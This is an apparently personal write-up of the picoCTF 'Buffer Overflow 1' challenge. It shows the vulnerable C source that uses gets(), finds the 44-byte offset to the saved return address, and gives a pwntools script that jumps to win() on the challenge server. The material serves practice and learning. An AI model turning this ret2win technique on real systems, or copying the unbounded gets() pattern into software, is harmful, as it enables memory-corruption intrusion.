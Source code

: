 # Buffer Overflow 1

**Challenge link:** [picoCTF – Buffer Overflow 1](https://play.picoctf.org/practice/challenge/258?category=6&originalEvent=70&page=1)

---

## Challenge information

```text
Level:   Medium
Tags:    Binary Exploitation, picoCTF 2022, browser_webshell_solvable
Author:  Sanjay C / Palash Oswal

Description:

Control the return address.

Now we're cooking! You can overflow the buffer and return to the `win` function in the program.

You can view the source here and connect with it using:
    nc saturn.picoctf.net 54523
```

---

## Manual Exploitation

The challenge archive contains the following files:

```bash
$ ls -lah
 drwxrwxr-x 3 ap   ap   4.0K Apr 24 13:05 .
 drwxrwxrwt 21 root root 4.0K Apr 24 13:02 ..
 -rw-rw-r-- 1 ap   ap    16K Apr 24 11:09 vuln
 -rw-rw-r-- 1 ap   ap   769B Apr 24 11:09 vuln.c
```

`vuln` is a 32‑bit ELF binary that is **not stripped**:

```bash
$ file vuln
vuln: ELF 32‑bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, *not stripped*
```

> A binary that is *not stripped* still contains symbol information for functions and globals, which is helpful during analysis.

The source code is provided in `vuln.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf, FLAGSIZE, f);
  printf("%s", buf);
}

void vuln() {
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers crossed... Jumping to 0x%x\n",
         get_return_address());
}

int main(int argc, char **argv) {
  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`main` simply calls `vuln()`. `vuln()` is vulnerable because it declares a 32‑byte buffer and then uses the unsafe `gets`, allowing a classic buffer‑overflow. The goal is a *ret2win*: overwrite the saved return address so the program branches to `win()`.

> `gets(char *s)` reads a line from *stdin* into `s` until a newline or EOF and **performs no bounds checking**.

### Binary security settings

```bash
$ checksec --file=vuln
[*] '/tmp/ws/vuln'
    Arch:     i386‑32‑little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled (GNU_STACK executable)
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
    Stripped: No
```

No stack canary, NX is off, and there is no PIE—perfect for a beginner exploit.

### Determining the offset

Interact with the remote service:

```bash
$ nc saturn.picoctf.net 52316
Please enter your string:
AAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers crossed... Jumping to 0x804932f
```

Locally we brute‑force the offset. Because the buffer is 32 bytes, we start there and increment by 4 bytes:

```bash
$ chmod u+x vuln
$ python3 -c 'print("A"*32)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python3 -c 'print("A"*36)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python3 -c 'print("A"*40)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
Segmentation fault (core dumped)
```

The **Jumping address** is at the same location `0x804932f`. Where points this address?

```bash
$ objdump -d -M intel vuln | grep 804932f                                                                                                                                                          
 804932f:       b8 00 00 00 00          mov    eax,0x0                                                                                                                                                                    
$ objdump --disassemble=main -M intel vuln | grep 804932f                                                                                                                                          
 804932f:       b8 00 00 00 00          mov    eax,0x0                                                                                                                                                                    
$ objdump --disassemble=main -M intel vuln 
 ...
 8049327:       83 c4 10                add    esp,0x10
 804932a:       e8 52 ff ff ff          call   8049281 <vuln>
 804932f:       b8 00 00 00 00          mov    eax,0x0          # It points here, the instruction executed after the call to vuln.
 ...
```

Instead, the **Segmentation Fault** suggests that the paylod affect the vuln stack frame information.

Continue trying until the **saved EIP** is hit.

```bash
$ python3 -c 'print("A"*48)' | ./vuln
Jumping to 0x41414141
Segmentation fault
```
At 48 bytes we overwrite EIP with `0x41414141`:

Thus, 44 bytes reach the *saved EIP*; the following 4 bytes replace it.

### Address of `win()`

```bash
$ readelf -s vuln | grep " win$"
    63: 080491f6   139 FUNC GLOBAL DEFAULT 13 win
```

Little‑endian representation: `\xf6\x91\x04\x08`.

### Crafting the payload

Python 3’s `print` uses UTF‑8:

```bash
$ python3 -c 'print("A"*44+"\xf6\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö

$ python3 -c 'print("A"*44+"\xf6\x91\x04\x08")' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
00000030: 0408 0a                                  ...
```

So we must write raw bytes via `sys.stdout.buffer`:

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44+b"\xf6\x91\x04\x08")' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
```

Submit the payload to `vuln`.

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xf6\x91\x04\x08")' | ./vuln
Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.
```

> For more references about Python3 `print` binary data, follow the [https://bugs.python.org/issue34437](https://bugs.python.org/issue34437).

### Exploit script

```python
#!/usr/bin/env python3

from pwn import remote, p32

HOST, PORT = 'saturn.picoctf.net', 54523
r = remote(HOST, PORT)

print(r.recvline())
payload = b'A' * 44 + p32(0x080491f6)

r.sendline(payload)
print(r.recvall().decode())
```

Running it retrieves the flag:

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 54523: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port 54523
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{XXXXXXXXX_XXX_XXXX_XXXXXXXX}
```

---

ap3zzi